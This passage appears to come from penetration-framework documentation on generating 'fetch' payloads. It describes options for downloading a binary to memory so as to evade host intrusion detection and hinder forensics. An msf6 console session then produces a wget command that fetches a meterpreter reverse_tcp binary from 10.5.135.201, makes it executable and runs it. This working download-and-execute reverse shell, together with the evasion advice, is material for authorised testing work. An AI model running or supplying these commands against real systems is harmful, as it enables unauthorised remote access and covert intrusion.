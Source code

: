 ### Dependent Options
`FETCH_FILELESS` is an option that specifies a method to modify the fetch command to download the binary payload to
memory rather than disk before execution, thus avoiding some HIDS and making forensics harder.  Currently, there are
two options: `bash` and `python3.8+`.  Both of these require the target to be running Linux Kernel 3.17 or above.
This option is only available when the platform is Linux.

`FETCH_FILENAME` is the name you'd like the executable payload saved as on the remote host.  This option is not
supported by every binary and must end in `.exe` on Windows hosts.  The default value is random.
This option is only available when `FETCH_FILELESS` is set to `none`

`FETCH_PIPE` is a binary flag that will create a second resource containing the original fetch command to run and then
will produce a much shorter command to run on the host that will download the original fetch command and pipe it
directly to the target's shell.  Use this option if there is a limit on the command size as it will result in a much
smaller original command.  When set to true, the `FETCH_URIPATH` option is used for the pipe command resource uri and
the default `FETCH_URIPATH`value is used for the original binary payload uri.
This option is only available when the fetch  transport is HTTP or HTTPS and the payload platform is Linux with the 
`FETCH_COMMAND` set to `CURL` or `WGET` or the platform is Windows and the `FETCH_COMMAND` is `CURL`

`FETCH_WRITABLE_DIR` is the directory on the remote host where we'd like to store the served payload prior to execution.
This value is not supported by all fetch binaries.  If you set this value and it is not supported, it will generate an error.
This option is only available when `FETCH_FILELESS` is set to `none`

The remaining options will be the options available to you in the served payload; in this case our served payload is
`linux/x64/meterpreter/reverse_tcp` so our only added options are `LHOST` and `LPORT`.  If we had selected a different
payload, we would see different options.

### Generating the Fetch Payload
```msf
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > set FETCH_COMMAND WGET
FETCH_COMMAND => WGET
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > set FETCH_SRVHOST 10.5.135.201
FETCH_SRVHOST => 10.5.135.201
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > set FETCH_SRVPORT 8000
FETCH_SRVPORT => 8000
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > set LHOST 10.5.135.201
LHOST => 10.5.135.201
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > set LPORT 4567
LPORT => 4567
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > generate -f raw
wget -qO ./YXeSdwsoEfOH http://10.5.135.201:8000/3cP1jDrJ3uWM1WrsRx3HTw; chmod +x ./YXeSdwsoEfOH; ./YXeSdwsoEfOH &
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > 
```
